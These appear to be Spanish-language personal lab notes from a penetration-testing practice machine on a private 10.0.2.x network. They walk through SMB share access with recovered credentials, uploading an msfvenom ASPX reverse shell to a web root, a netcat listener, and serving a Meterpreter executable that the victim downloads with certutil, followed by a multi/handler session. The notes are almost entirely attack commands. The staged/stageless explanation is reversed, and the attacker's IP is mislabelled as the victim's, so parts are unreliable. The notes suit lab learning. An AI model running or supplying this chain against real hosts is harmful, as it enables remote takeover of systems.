 `Corroboramos los archivos logs con el usuarios previamente encontrado bogo con contraseña bogo:

smbclient //10.0.2.46/LOGS -U bogo 

![[Pasted image 20240311143642.png]]

Vemos que el usuario marcos, ha entrado a la red para ver los recrusos, y la contraseña SuperPassword

`Validamos con crackmapexec

crackmapexec smb 10.0.2.46 -u marcos -p SuperPassword --shares

![[Pasted image 20240311143856.png]]

smbclient //10.0.2.46/WEB -U marcos

dir
get index.html

Confirmamos estar en la raiz del sitio web.

`Creada de rev shell en aspx
Staged, envia nuestro payload de una sola vez
Stagless, envia nuestro payload en varios pasos
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.100 LPORT=443 -f aspx reverse.aspx

`Subida archivos SMB
put reverse.aspx

`Nos ponemos en escuchar con netcat
nc -lvnp 443

## Crear ejecutable a nivel de sistema para establecer una sesion con meterpreter
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.0.2.100 LPORT=443 -f exe -o reverse.exe

`Descargando el payload`
python3 -m http.server 80

``Descargar el archivo desde la maquina vitcima en el netcat
certutil.exe -f -urlcache http://10.0.2.100/reverse.exe reverse.exe
(10.0.2.100 es la maquina victima)

msfconsole
use multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST 10.0.2.100
set LPORT 443
run

`Ejecutar en la maquina victima
.\\reverse.exe

# Maquina 5 (Nikto, Dirbuster, Nibbleblog, searchsploit, Hydra, análisis de exploit y GTFObins)
